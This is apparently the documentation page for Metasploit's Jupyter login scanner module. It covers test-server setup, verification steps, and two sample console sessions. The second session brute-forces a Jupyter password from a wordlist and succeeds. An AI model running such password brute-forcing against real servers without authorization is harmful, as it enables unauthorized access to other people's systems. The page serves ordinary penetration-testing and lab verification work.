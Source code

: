 ## Vulnerable Application

This module checks if authentication is required on a Jupyter Lab or Notebook server. If it is, this module will
bruteforce the password. Jupyter only requires a password to authenticate, usernames are not used. This module is
compatible with versions 4.3.0 (released 2016-12-08) and newer. [Version 4.3.0][1] is the first version in which
authentication is required by default.

A note on names, "Jupyter Lab" is the next-generation interface for "Jupyter Notebooks" which was the successor of the
original IPython Notebook system. This module is compatible with both standard Jupyter Notebook and Jupyter Lab servers.

### Installation

1. Install the latest version of Jupyter from PyPi using pip: `pip install notebook`. The "notebook" package is the core
  application and is the one whose version number is used as the Jupyter version number referred to in this document.
1. Start Jupyter using `jupyter notebook --ip='*'` to start Jupyter listening on all IP addresses.
    * New installs will randomly generate an authentication token and open the browser with it
    * As of [version 5.3][2], the user will be prompted to set a password the first time they open the UI
    * Note that you may need to restart Jupyter after changing the password in order for Jupyter to start using the new password.
    * If you can't reset the password, it may be because you need to create the directory `.jupyter` in the directory 
    you are running the `jupyter notebook --ip='*'` command from.
1. With the password set, the module can be tested

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/jupyter_login`
1. Set the `RHOSTS` option
    * With no other options set, this will only check if authentication is required
1. Do: `run`
1. You should the server version
1. If password options (such as `PASS_FILE`) where specified, and the server requires authentication then you should see
   login attempts

## Options

## Scenarios

### Jupyter Notebook 4.3.0 With No Authentication Requirement

```
msf > use auxiliary/scanner/http/jupyter_login 
msf auxiliary(scanner/http/jupyter_login) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf auxiliary(scanner/http/jupyter_login) > set PASS_FILE /tmp/passwords.txt
PASS_FILE => /tmp/passwords.txt
msf auxiliary(scanner/http/jupyter_login) > run

[*] 192.168.159.128:8888 - The server responded that it is running Jupyter version: 4.3.0
[+] 192.168.159.128:8888 - No password is required.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jupyter_login) >
```

### Jupyter Notebook 6.0.2 With A Password Set

```
msf > use auxiliary/scanner/http/jupyter_login 
msf auxiliary(scanner/http/jupyter_login) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf auxiliary(scanner/http/jupyter_login) > set PASS_FILE /tmp/passwords.txt
PASS_FILE => /tmp/passwords.txt
msf auxiliary(scanner/http/jupyter_login) > run

[*] 192.168.159.128:8888 - The server responded that it is running Jupyter version: 6.0.2
[-] 192.168.159.128:8888 - LOGIN FAILED: :Password (Incorrect)
[+] 192.168.159.128:8888 - Login Successful: :Password1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jupyter_login) >
```

[1]: https://jupyter-notebook.readthedocs.io/en/stable/changelog.html#release-4-3
[2]: https://jupyter-notebook.readthedocs.io/en/stable/public_server.html#automatic-password-setup
